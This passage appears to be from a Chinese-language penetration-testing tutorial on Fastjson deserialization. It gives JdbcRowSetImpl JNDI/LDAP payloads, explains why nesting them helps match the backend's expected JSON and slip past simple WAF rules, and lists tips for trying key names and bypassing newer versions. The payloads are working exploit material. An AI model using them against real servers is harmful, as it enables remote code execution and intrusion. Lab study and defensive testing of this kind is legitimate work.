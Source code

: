 查看容器

![image-20250922043951704](./images/Fastjson漏洞2/image-20250922043951704.png)

成功创建文件



> ### 🔍 为何常用嵌套结构
>
> 在BurpSuite测试中看到的Payload：
>
> ```
> {
>     "shell":{
>         "@type":"com.sun.rowset.JdbcRowSetImpl",
>         "dataSourceName":"ldap://127.0.0.1:50389/d81231",
>         "autoCommit":true
>     }
> }
> ```
>
> 之所以采用这种嵌套结构，主要有以下原因：
>
> 1. **适应目标应用的JSON结构**：很多Web应用的后端代码并非直接反序列化整个JSON输入，而是**期望一个特定的JSON结构**。它可能先解析外层JSON，然后提取某个特定字段的值（如这里的 `"shell"`）再进行后续处理（如用Fastjson解析该字段值的字符串）。如果你的Payload不符合它预期的结构，攻击载荷可能根本无法被Fastjson解析。
> 2. **规避WAF检测**：将恶意载荷嵌套在一层结构里，有时可以**绕过一些简单的WAF（Web应用防火墙）规则**。因为WAF可能只检查JSON的第一层结构，或者对嵌套数据的检测不够深入。
>
> ### ⚠️ 直接提交载荷的问题
>
> 另一种形式：
>
> ```
> {
>     "@type":"com.sun.rowset.JdbcRowSetImpl",
>     "dataSourceName":"ldap://127.0.0.2:50389/d81231",
>     "autoCommit":true
> }
> ```
>
> 这种直接的Payload，**只有在服务端代码直接对接收到的整个JSON字符串进行反序列化时才有用**。如果服务端代码期望的JSON结构与此不符（例如，它期望JSON有一个根键），那么这种Payload可能会引发解析错误，导致攻击无法成功。
>
> ### 💡 测试建议
>
> 在实际渗透测试中：
>
> - **灵活尝试**：如果直接Payload不成功，可以尝试将其**嵌套**到不同的键中，如 `{"data": {...}}`, `{"obj": {...}}`, `{"input": {...}}`等。键名有时可以尝试猜测，或者通过分析应用响应、常见命名习惯获得线索。
> - **仔细分析响应**：注意应用返回的**错误信息**（如果有），它们有时会提示你期望的JSON结构是什么。
> - **使用工具辅助**：BurpSuite插件如 **FastjsonScan** 可以帮助你探测Fastjson漏洞并生成Payload，它们通常会考虑多种结构。
> - **注意高版本绕过**：对于Fastjson 1.2.68及更高版本，`AutoType`功能可能默认受到更严格的限制或已关闭，需要研究特定的绕过方法。
>